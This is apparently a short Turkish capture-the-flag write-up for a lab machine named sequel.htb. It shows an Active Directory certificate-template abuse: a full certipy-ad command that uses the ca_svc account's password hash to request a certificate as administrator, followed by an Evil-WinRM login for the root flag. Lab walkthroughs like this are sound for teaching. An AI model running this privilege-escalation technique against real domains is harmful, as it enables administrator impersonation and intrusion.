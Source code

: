 Aşağıdaki hatayla karşılaşırsanız 👇 zamanı manuel olarak güncellemeniz gerekir

![Pasted image 20250113195554.png](/img/user/resimler/Pasted%20image%2020250113195554.png)

```
ntpdate sequel.htb
```

Çalışan bir template bulmak için, onun ayarlarını geçersiz kılmamız gerekir.

Hedef makineye yüklemek için Certify.exe kullanıyorum.

![Pasted image 20250113202209.png](/img/user/resimler/Pasted%20image%2020250113202209.png)

![Pasted image 20250113202643.png](/img/user/resimler/Pasted%20image%2020250113202643.png)

ca_svc'nin bu sertifika için geçersiz kılınabilir izinlere sahip olduğunu görebilirsiniz 👆, işte bunu nasıl geçersiz kılacağınız

![Pasted image 20250113202948.png](/img/user/resimler/Pasted%20image%2020250113202948.png)

Kerberos isteği aracılığıyla hedef sistem için bir kimlik doğrulama bileti almak üzere ca_svc kullanıcısının kimlik bilgisi hash'ini kullanın

certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug

![Pasted image 20250113210140.png](/img/user/resimler/Pasted%20image%2020250113210140.png)

![Pasted image 20250113210241.png](/img/user/resimler/Pasted%20image%2020250113210241.png)

root.txt dosyasını almak için Evil-Winrm girişi


